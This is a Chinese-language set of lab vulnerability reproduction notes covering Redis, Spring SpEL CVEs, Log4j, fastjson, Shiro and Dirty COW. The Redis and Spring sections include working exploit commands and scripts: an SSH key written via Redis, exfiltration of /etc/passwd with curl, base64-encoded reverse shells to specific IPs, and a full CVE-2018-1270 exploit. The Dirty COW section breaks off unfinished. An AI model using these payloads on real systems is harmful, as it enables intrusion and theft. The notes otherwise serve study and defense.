










# 漏洞复现

### CVE-2012-2122Mysql身份认证漏洞

进入MySQL靶场

### redis未授权


>首先使用ssh-keygen -t rsa 来生成一个密钥 #生成密钥
>
>cd /root/.ssh
>
>(echo -e"\n";cat id_rsa.pub;echo -e "\n")>key.txt #密钥输出
>
>cat key.txt|redis-cli -h ip地址 -p 端口 -x set crack #写入密钥
>
>redis-cli -h ip地址 -p 端口 #匿名连接
>
>config set dir /root/.ssh #设置redis备份文件的目录
>
>config set dbfilename authorized_keys #设置文件名
>
>save #保存文件
>
>exit
>
>
>
>ssh -i id_rsa root@ip地址 #使用ssh连接

防御方法

1.将redis.conf的bind设置为127.0.0.1

2.在redis.conf文件找到requirepass设置登录的认证


### Spring SpEL表达式漏洞

>这个接口是用来解析SpEL表达式,如果为做好屏蔽则会产生漏洞(他的实现类也要注意)
>
>org.springframework.expression.ExpressionParser     //**表示解析器**
>
>org.springframework.expression.spel.standard.SpelExpression //表达式对象  (==getValue()方法用来进行计算时会调用代码==)
>
>其中表达式关于类的引入
>
>

​	


#### **SimpleEvaluationContext和StandardEvaluationContext**

SimpleEvaluationContext: 不包含类相关的危险操作，比较安全

StandardEvaluationContext: 包含所有功能，存在风险（默认加载）


关于SpEL表达式

https://www.jianshu.com/p/e0b50053b5d3

用法一共有三种

1.@Value中使用如：

```java
@Value("#{表达式}")
```

2.XML配置

```xml
<bean id="xxx" class="com.java.XXXXX.xx">
    <!-- 同@Value,#{}内是表达式的值，可放在property或constructor-arg内 -->
    <property name="arg" value="#{表达式}">
</bean>
```

3.在代码中执行

```java
public static void main(String[] args) {
    //创建ExpressionParser解析表达式
    ExpressionParser parser = new SpelExpressionParser();
    //表达式放置
    Expression exp = parser.parseExpression("表达式");
    //执行表达式，默认容器是spring本身的容器：ApplicationContext
    Object value = exp.getValue();
    /**如果使用其他的容器，则用下面的方法*/
    //创建一个虚拟的容器EvaluationContext，注册一个函数
    StandardEvaluationContext ctx = new StandardEvaluationContext();
    //向容器内添加bean
    BeanA beanA = new BeanA();
    ctx.setVariable("bean_id", beanA);
    //setRootObject并非必须；一个EvaluationContext只能有一个RootObject，引用它的属性时，可以不加前缀
    ctx.setRootObject(XXX);
    //getValue有参数ctx，从新的容器中根据SpEL表达式获取所需的值
    Object value = exp.getValue(ctx);
}
```

还可以调用对象(需要@Bean)变量,函数,正则,运算符,Elvis

>**root和this**
>
>SpEL中#root总是指的刚开始的表达式对象，而#this总是指的当前的表达式对象，用他们可以直接操作当前上下文。


#### **框架特征检测:**

1.spring框架的默认图标为favicon.ico图标

2.springboot 4xx,5xx的默认报错页面


3.Wappalyzer 插件识别

4.X-Application-Context


#### **首先CVE-2016-4977**

vulhub提供了poc

```python
message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)
poc += ')}'

print(poc)
```

>curl 攻击端ip:攻击端端口 -d "$(cat /etc/passwd)" 
>
>使用curl 来测试返回在是否能发送数据，-d代表发送数据 
>
>使用nc 监听端口即可收到消息
>
>
>
>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMjQuNC4yNi84ODg4IDA+JjE=}|{base64,-d}|{bash,-i} 
>
>反弹shell并用poc生成字节码
>
>```
>${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}
>```
>
>然后使用nc监听即可

引发原因：Spring Security OAuth是为Spring框架提供安全认证支持的一个模块。在其使用 whitelabel views来处理错误时，由于使用 SpEL，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。


#### 在是**CVE-2017-4971**

以下内容是根据https://paper.seebug.org/322/得来的

原理：

>首先我们看Spring Web Flow的这个类
>
>
>
>
>
>里面有这一行代码,是通过浏览器接收field然后进行SpringEL解析
>
>
>
>


#### **CVE-2017-8046**

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```


构造poc

```
bash -i >& /dev/tcp/ip/8888 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwOS45Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}

",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwOS45Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}"))))
```

**CVE-2018-1270**

使用自带的POC即可

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)


def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time() * 1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://175.24.4.26:8080/gs-guide-websocket')# 这里修改ip
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})

#这里修改命令
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMjQuNC4yNi84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```


#### **防御方法:升级高版本即可**


### 脏牛漏洞(Copy On Write 简称伪COW所以被称为脏牛)

由于条件竞争导致越权


首先讲解一下**原子性操作**

> 从汇编层面能用一行机器码描述的就是原子性操作不能用一行机器码描述的就不是原子性操作

例如a b 交换

```
mov eax,a
mov a,b
mov b,eax
```

从道理上面看上面的a和b交换没有任何问题,但是如果是多线程环境,a是一个全局变量并且在mov eax,a的过程中另一个线程调用了mov a,b并且又执行了其他的操作那就可能导致a的值并不是我们想要的

>只用一行c语言代码是伪原子性的,因为c语言的一行代码可能对应着汇编语言的多层代码

例如:

>c语言代码:
>
>int a = (b*c)<<5;
>
>
>
>汇编:
>
>mov eax,b
>
>mul eax,c
>
>shl eax,5
>
>mov a,eax


**我们再来讲一下double checked locking if-condition(双重检查if条件锁)的问题**

它是用来对多线程的安全进行检查


初级版本的修复(如果更安全的调用构造函数)


如果存在一个类,有多个线程的多个函数都需要用到他的实例(COW页),并且在这些函数的整个函数过程都需要保证原子独占一个实例,我们会维护一张表(对应着内核的页表,用来记录所有指向该类的指针,且每个实例正常情况下只有一个指向它的指针)


如果该页表用光了在不了解double checked locking if-condition的情况下会这么写

```java
class Foo{

	Needed helper = NULL
     public Needed getInstance(){
       if(helper == NULL){   //在这里如果为空那就新建一个页表
          helper = new Needed();
          return helper;
       }
       ...... //如果不为空那就返回一个可用的页表这里不写详细的操作了
       return helper;
	}
}

**这里假设getInstance是用完页表需要重新分配一个页表的函数,暂时不写使用页表的函数**
```

上面这种写法的危害

由于内核是多线程的如果没有加锁可能导致问题的出现

改版-1

```java
class Foo{
	Needed helper = NULL
     public Needed getInstance(){
       lock();//加锁
       if(helper == NULL){   //在这里如果为空那就新建一个页表
          helper = new Needed();
          return helper;
       }
       unlock();//解锁
       ...... //如果不为空那就返回一个可用的页表这里不写详细的操作了
       return helper;
	}
}
```

这样改,加锁的范围太大了,如果不需要if里面的操作他也会需要等待锁

改版-2

```java
class Foo{
	Needed helper = NULL
     public Needed getInstance(){
       
       if(helper == NULL){   //在这里如果为空那就新建一个页表
       lock();//加锁
           helper = new Needed();
          return helper;
      unlock();//解锁
       }

       ...... //如果不为空那就返回一个可用的页表这里不写详细的操作了
       return helper;
	}
}
```

这种改版导致经典的线程问题(new 是伪原子的,大约三个操作)

改版-3

```java
class Foo{
	Needed helper = NULL
     public Needed getInstance(){
       if(helper == NULL){   //在这里如果为空那就新建一个页表
       lock();//加锁
           if(helper == NULL){
             helper = new Needed();
             return helper;
           }
      unlock();//解锁
       }

       ...... //如果不为空那就返回一个可用的页表这里不写详细的操作了
       return helper;
	}
}
```

经典解决方法,也是double checked lock if-condition方法

但是这种方法仍然不是最安全的,这也是脏牛利用这种不安全导致的


接下来回到脏牛的问题上面

首先理解一下**私有版本(PRIVATE_COPY)**

将内存中一块缓存映射到硬盘中,但是如果读操作是对内存中的数据进行而不是对硬盘中的数据进行读

内存中的副本可以被任意写入,但是不允许被回写到硬盘中(这种操作类似于vim打开一个只读文件你可以写数据但是不能保存),**所以只要能将内存中的数据写回那就能造成脏牛漏洞了**


当我们操作一个read-only的时候我们操作的是他的副本并不是原件


找找工作再看吧

>https://www.bilibili.com/video/BV18Q4y1i7Ld?from=search&seid=15043089374979084029&spm_id_from=333.337.0.0


### log4j原理研究

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

这是他的jar包,注意导入这个的时候做好要一个干净的maven项目,不然有可能导入其他版本的


导致这个漏洞主要是因为log4j会处理`${}`

```java
logger.error("${jndi:ldap://vj40sh.dnslog.cn}");
```

我们使用error方法来测试,并跟踪传入的数据,使用的工具主要是idea

```
org.apache.logging.log4j.core.config.LoggerConfig
```







```
org.apache.logging.log4j.core.config.AppenderControl
```






可以看到这个toText里面有一个Serializer2感觉很敏感,进入这个函数,进入之后继续跟进


之后在这个函数才是真正对字符串进行操作的函数,一共有11个,我们重点关注第9个




可以看出这里对`${}`进行了分析




由于下面的递归层数太多了所以直接跳到StrSubstitutor.resolveVariable(可以直接在这里打断点)



然后进入lookup函数



这里显示了所有的类型

并且JndiLookup.lookup是真正的触发函数

```java
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    } else {
        String jndiName = this.convertJndiName(key);

        try {
            JndiManager jndiManager = JndiManager.getDefaultManager();
            Throwable var5 = null;

            String var6;
            try {
                var6 = Objects.toString(jndiManager.lookup(jndiName), (String)null);
            } catch (Throwable var16) {
                var5 = var16;
                throw var16;
            } finally {
                if (jndiManager != null) {
                    if (var5 != null) {
                        try {
                            jndiManager.close();
                        } catch (Throwable var15) {
                            var5.addSuppressed(var15);
                        }
                    } else {
                        jndiManager.close();
                    }
                }

            }

            return var6;
        } catch (NamingException var18) {
            LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, var18);
            return null;
        }
    }
}
```


### Java反序列化

由于别人写的挺好那么我就不造轮子了

https://www.geekby.site/2021/08/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1/


### fastjson

是用于JSON和Java Object之间相互转化的类


jndi(Java Naming and Directory Interface)所包含支持的服务

> LDAP （Lightweight Directory Access Protocol） 轻量级目录访问协议
>
> CORBA （Common Object Request Broker Architecture） 公共对象请求代理结构服务
>
> RMI（Java Remote Method Invocation）JAVA远程远程方法调用注册
>
> DNS（Domain Name Service）域名服务


根据@type来反序列化文件，导致加载了本地的其他类从而执行恶意代码

com/alibaba/fastjson/parser/DefaultJSONParser.java的parseObject函数中发生的




这里根据具体的类型来使用deserializer类来进行反序列化，之后序列化并return




不过会经过com/alibaba/fastjson/parser/ParserConfig.java的白名单，黑名单检测而ParserConfig函数则put了很多默认的类


### shiro

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞
